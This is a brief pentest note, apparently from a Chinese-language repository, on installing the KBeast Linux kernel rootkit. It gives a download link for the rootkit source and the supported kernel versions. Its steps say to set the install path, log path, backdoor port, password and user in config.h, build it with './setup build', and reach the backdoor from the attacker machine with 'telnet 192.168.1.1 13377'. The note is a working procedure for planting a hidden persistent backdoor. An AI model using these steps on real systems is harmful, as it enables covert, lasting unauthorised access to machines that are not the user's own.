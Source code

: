 	http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz
	version - 0 : 2.6.18 (RHEL/CentOS 5.x)
          	1 : 2.6.32 (Ubuntu 10.x) [default version]
	修改配置config.h
	安装路径、日志路径、端口、连接密码、连接用户
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/574.png)

	./setup build
	攻击机连接
	>telnet 192.168.1.1 13377